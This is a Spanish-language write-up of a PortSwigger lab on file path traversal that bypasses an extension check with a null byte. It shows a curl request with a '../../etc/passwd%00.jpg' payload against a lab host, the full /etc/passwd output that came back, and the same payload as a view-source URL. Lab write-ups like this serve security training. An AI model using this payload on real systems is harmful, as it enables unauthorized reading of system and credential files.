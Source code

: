 ```yaml
---
title: File path traversal, validation of file extension with null byte bypass
description: Laboratorio de Portswigger sobre Path Traversal
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Path Traversal
tags:
  - Portswigger Labs
  - Path Traversal
  - File path traversal, validation of file extension with null byte bypass
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `path traversal` en la `visualización` de `imágenes` de `productos`. La aplicación valida que el `nombre` de `archivo` proporcionado termine con la `extensión` de `archivo` esperada. Para `resolver` el `laboratorio`, hay que `obtener` el contenido del archivo `/etc/passwd`

---

## Guía de path traversal

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de path traversal` [https://justice-reaper.github.io/posts/Path-Traversal-Guide/](https://justice-reaper.github.io/posts/Path-Traversal-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Path-Traversal-Lab-6/image_1.png)

Si hacemos `Ctrl + U` vemos como se están `cargando` las `imágenes`

![](/assets/img/Path-Traversal-Lab-6/image_2.png)

Probamos un `directory path traversal` usando un `null byte`, esto sirve para `versiones` de `php` que son `inferiores` a la `5.4`, lo que hacemos es `ignorar` lo que hay `detrás` de `%00`

```
# curl 'https://0ad5007e0357b4ba813a12ae005e008f.web-security-academy.net/image?filename=../../../../../../../../../../../etc/passwd%00.jpg'     
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Si lo queremos hacerlo desde la `web` debemos poner `view-source://`

```
view-source:https://0aab0027034fa53480d27189009d0038.web-security-academy.net/image?filename=../../../../../../../../../../../etc/passwd%00.jpg
```

![](/assets/img/Path-Traversal-Lab-6/image_3.png)
